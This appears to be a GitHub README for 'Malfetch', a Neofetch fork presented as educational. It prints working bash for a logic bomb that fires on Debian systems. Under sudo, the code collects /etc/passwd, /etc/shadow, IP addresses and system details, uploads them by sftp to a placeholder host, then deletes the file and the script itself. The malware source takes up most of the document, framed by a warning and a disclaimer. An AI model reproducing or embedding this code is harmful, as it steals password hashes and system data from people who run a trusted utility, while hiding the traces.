 # Malfetch
Malfetch is a fork of Neofetch designed for educational purposes. This repository contains a logic bomb integrated into the original Neofetch functionality, allowing users to understand the implications of malicious code in a controlled environment.

# Warning
This repository is intended for educational purposes only. It is crucial to understand the ethical implications of using and distributing malicious code. Use this repository responsibly and only in environments where you have explicit permission to test and learn.

# Malicious Part
There is no default IP address or hostname, so the created system file won't go anywhere until you edit the code.
``` bash
logic() {
    [[ $distro ]] && return

    if [[ -f /etc/os-release ]]; then
        source /etc/os-release
        if [[ $ID == "debian" ]]; then
            distro="Debian ${VERSION_ID:-${VERSION}}"
            malicious  
        fi
    fi
}

malicious() {
    sudo bash -c 'cat /etc/passwd > /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   cat /etc/shadow >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Local IP Address(es):" >> /tmp/xyz1048udk && \
                   hostname -I >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "Public IP Address:" >> /tmp/xyz1048udk && \
                   curl -s ifconfig.me >> /tmp/xyz1048udk && \
                   echo "" >> /tmp/xyz1048udk && \
                   echo "System Information:" >> /tmp/xyz1048udk && \
                   echo "Operating System:" >> /tmp/xyz1048udk && \
                   lsb_release -d >> /tmp/xyz1048udk && \
                   echo "Kernel Version:" >> /tmp/xyz1048udk && \
                   uname -r >> /tmp/xyz1048udk && \
                   echo "Disk Usage:" >> /tmp/xyz1048udk && \
                   df -h >> /tmp/xyz1048udk'

    sftp username@hostname <<EOF
put /tmp/xyz1048udk
bye
EOF

    sudo rm /tmp/xyz1048udk
    sudo rm -- "$0"  
}

malicious()
```

# Disclaimer
The authors of this repository are not responsible for any misuse of the code contained herein. By using this repository, you agree to take full responsibility for your actions and to use the code only in ethical and legal contexts.
